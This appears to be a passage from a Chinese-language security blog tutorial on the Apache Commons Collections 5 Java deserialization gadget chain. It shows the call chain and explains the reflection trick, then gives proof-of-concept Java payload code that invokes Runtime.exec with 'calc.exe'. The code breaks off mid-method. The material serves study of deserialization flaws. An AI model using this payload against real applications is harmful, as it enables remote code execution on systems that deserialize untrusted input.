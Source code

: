 ```
Gadget chain:
    ObjectInputStream.readObject()
        BadAttributeValueExpException.readObject()
            TiedMapEntry.toString()
                LazyMap.get()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```

BadAttributeValueExpException 的 readObject 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231601783.png)

其中的 val 在构造方法中传入

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231602099.png)

从之前的图也可以看到 TiedMapEntry 的 toString 也会调用到 getValue, 进而触发 LazyMap 回调

因为构造方法中传入的 val 会自动调用 toString, 所以需要用到反射来赋值

payload 如下

```java
package com.example.CommonsCollections5;

import com.example.Reflection;
import com.example.Serialization;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections5 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
```